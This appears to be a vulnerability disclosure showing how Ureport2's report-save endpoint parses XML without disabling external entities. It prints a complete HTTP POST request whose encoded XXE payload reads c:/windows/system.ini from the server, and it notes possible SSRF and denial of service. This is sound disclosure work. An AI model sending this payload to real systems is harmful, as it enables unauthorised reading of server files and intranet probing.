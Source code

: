 Ureport2 XXE 
Author:idam0n


The interface for saving reports does not disable external entity parsing when parsing xml data, resulting in the possibility of submitting malicious data for injection of xml external entities, reading arbitrary files in the operating system, and causing ssrf to detect intranet information by writing a large number of cyclically called entities Carry out dos attacks, etc.

The vulnerable code  at file：ureport2-core-2.2.9.jar   method：com.bstek.ureport.parser.ReportParser.parse
as the picture：
![image](https://user-images.githubusercontent.com/20945826/212481354-aba5deba-8e47-4a79-9e14-16850ff0ff16.png)

It is found that the program directly reads the xml information, and it is not configured to prohibit external entity references, resulting in xxe

Reproduce the local build environment:
Use idea to build a Springboot demo project and introduce ureport2：

![image](https://user-images.githubusercontent.com/20945826/212481453-6dd7ba4e-995c-4b12-88cb-01f6168c6e5e.png)

Exploiting the Vulnerability

save a report
![image](https://user-images.githubusercontent.com/20945826/212481525-11a0137f-ecf4-44ba-97ed-ef151aef9651.png)

the http message：
![image](https://user-images.githubusercontent.com/20945826/212481596-ad365ac0-47a3-4766-8b35-80f4045aabe5.png)

now add the xxe payload to post program 'content'
the xml content with payload：
![image](https://user-images.githubusercontent.com/20945826/212481879-cba0fc9b-b00f-42b8-9382-251f87989b8c.png)


    
submit data,the http message:
![image](https://user-images.githubusercontent.com/20945826/212482020-d7abe2b9-df61-4b59-a675-b80ca783df6f.png)

POST /ureport/designer/saveReportFile HTTP/1.1
Host: 192.168.66.39:8881
Content-Length: 3936
Accept: */*
Origin: http://192.168.66.39:8881
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://192.168.66.39:8881/ureport/designer
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=F988AAC7F0ED6210948EE2DB114A8A86
Connection: close

file=file%3Atets1.ureport.xml&content=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE+x+%5B+%3C!ENTITY+xxe+SYSTEM+%22file%3A%2F%2F%2Fc%3A%2Fwindows%2Fsystem.ini%22%3E%5D%3E%3Cureport%3E%3Ccell+expand%3D%22None%22+name%3D%22A1%22+row%3D%221%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B1%22+row%3D%221%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C1%22+row%3D%221%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D1%22+row%3D%221%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22A2%22+row%3D%222%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B2%22+row%3D%222%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C2%22+row%3D%222%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D2%22+row%3D%222%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22A3%22+row%3D%223%22+col%3D%221%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22B3%22+row%3D%223%22+col%3D%222%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22C3%22+row%3D%223%22+col%3D%223%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%3C!%5BCDATA%5B%5D%5D%3E%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Ccell+expand%3D%22None%22+name%3D%22D3%22+row%3D%223%22+col%3D%224%22%3E%3Ccell-style+font-size%3D%2210%22+align%3D%22center%22+valign%3D%22middle%22%3E%3C%2Fcell-style%3E%3Csimple-value%3E%26xxe%3B%3C%2Fsimple-value%3E%3C%2Fcell%3E%3Crow+row-number%3D%221%22+height%3D%2218%22%2F%3E%3Crow+row-number%3D%222%22+height%3D%2218%22%2F%3E%3Crow+row-number%3D%223%22+height%3D%2218%22%2F%3E%3Ccolumn+col-number%3D%221%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%222%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%223%22+width%3D%2280%22%2F%3E%3Ccolumn+col-number%3D%224%22+width%3D%2280%22%2F%3E%3Cpaper+type%3D%22A4%22+left-margin%3D%2290%22+right-margin%3D%2290%22%0A++++top-margin%3D%2272%22+bottom-margin%3D%2272%22+paging-mode%3D%22fitpage%22+fixrows%3D%220%22%0A++++width%3D%22595%22+height%3D%22842%22+orientation%3D%22portrait%22+html-report-align%3D%22left%22+bg-image%3D%22%22+html-interval-refresh-value%3D%220%22+column-enabled%3D%22false%22%3E%3C%2Fpaper%3E%3C%2Fureport%3E

now open the report we can get the file content at c:/windows/system.ini
![image](https://user-images.githubusercontent.com/20945826/212482215-48d96b63-15b4-4b8a-a222-1f4b2e8c7998.png)

It should also be noted that，the function has no access control so it can be accessed by any user.

And for more, An XML External Entity (XXE) can also cause ssrf and dos
ssrf:
![image](https://user-images.githubusercontent.com/20945826/219539462-498cd482-6893-4328-881f-a3b69fc340a7.png)

